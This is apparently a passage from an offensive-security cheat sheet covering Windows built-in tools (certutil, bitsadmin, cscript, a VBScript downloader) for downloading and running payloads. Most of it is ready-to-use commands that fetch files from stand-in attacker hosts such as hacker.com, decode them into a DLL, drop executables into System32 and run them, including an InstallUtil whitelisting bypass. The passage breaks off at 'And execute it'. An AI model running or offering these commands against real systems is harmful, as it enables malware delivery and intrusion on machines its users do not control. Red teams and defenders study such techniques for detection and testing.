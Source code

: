 ```
certutil -urlcache -split -f http://hacker/malicious.b64 malicious.b64 & certutil -decode malicious.b64 malicious.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u malicious.dll
```

**Bitsadmin**

Background Intelligent Transfer Service is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitate asynchronously, prioritized, and throttled transfer of files between machines using idle network bandwidth.

To download files from remote server

```
bitsadmin /transfer hacker http://hacker.com/evil.pe c:\System32\evil.exe
```
We can also execute payload using bitsadmin
```
bitsadmin /addfile hacker http://hacker.com/evil.pe c:\System32\evil.exe
bitsadmin /SetNotifyCmdLine evil.exe /complete hacker | start /B C:\evil.exe"
```
**Cscript**

cscript.exe is a Microsoft (r) Console Based Script Host from Microsoft Corporation belonging to Microsoft (r) Windows Script Host. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt.

~~~
cscript //E:jscript \\webdavserver\folder\payload.txt
~~~


Create Vbs file for wget
**VbScript wget.vbs**
```

echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs 
echo Err.Clear >> wget.vbs echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET",strURL,False >> wget.vbs echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs 
echo Next >> wget.vbs echo ts.Close >> wget.vbs
```
And execute it 

